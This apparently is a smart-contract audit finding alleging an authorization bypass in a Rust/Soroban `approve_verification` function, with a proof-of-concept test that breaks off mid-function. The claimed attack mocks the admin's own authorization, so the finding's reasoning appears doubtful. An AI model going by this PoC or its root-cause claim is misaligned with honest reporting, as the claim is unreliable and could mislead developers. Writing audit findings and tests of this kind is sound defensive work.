 #### Description
The `approve_verification` function suffers from the same authorization bypass vulnerability as other admin functions. Any user with the admin's signature can call this function to verify any address, regardless of whether they are the actual admin.

#### Impact
- **Verification Bypass**: Attackers can verify any address they control
- **Privilege Escalation**: Enables attackers to gain verified status for multiple addresses
- **System Integrity**: Compromises the verification system
- **Cascade Effect**: Enables other attacks through verified status

#### Root Cause
The `verify_admin` function only checks for admin signature (`admin.require_auth()`) but doesn't verify that the caller is actually the admin.

#### Affected Code
```rust
// In admin.rs - VULNERABLE
fn approve_verification(env: Env, user: Address) -> Result<(), Error> {
    AdminModule::verify_admin(&env)?; // Only checks signature, not caller identity
    // Attacker can verify any address
}
```

#### Proof of Concept
The vulnerability has been confirmed through testing:

```rust
#[test]
fn test_critical_auth_bypass_approve_verification() {
    let env = Env::default();
    let (contract, admin, _) = test_setup::setup_contract(&env);

    // Create malicious user and target
    let malicious_user = Address::generate(&env);
    let target_user = Address::generate(&env);
    
    // Register target user
    env.mock_auths(&[soroban_sdk::testutils::MockAuth {
        address: &target_user,
        invoke: &soroban_sdk::testutils::MockAuthInvoke {
            contract: &contract.address,
            fn_name: "register_with_referral",
            args: (target_user.clone(), admin.clone(), String::from_str(&env, "proof123")).into_val(&env),
            sub_invokes: &[],
        },
    }]);
    contract.register_with_referral(&target_user, &admin, &String::from_str(&env, "proof123"));

    // MALICIOUS ATTACK: Malicious user verifies target with admin's signature
    env.mock_auths(&[soroban_sdk::testutils::MockAuth {
        address: &admin, // Admin signature
        invoke: &soroban_sdk::testutils::MockAuthInvoke {
            contract: &contract.address,
            fn_name: "approve_verification",
            args: (target_user.clone(),).into_val(&env),
            sub_invokes: &[],
        },
    }]);
    
    // This should FAIL (panic) but currently SUCCESSS due to vulnerability
    contract.approve_verification(&target_user);
    
```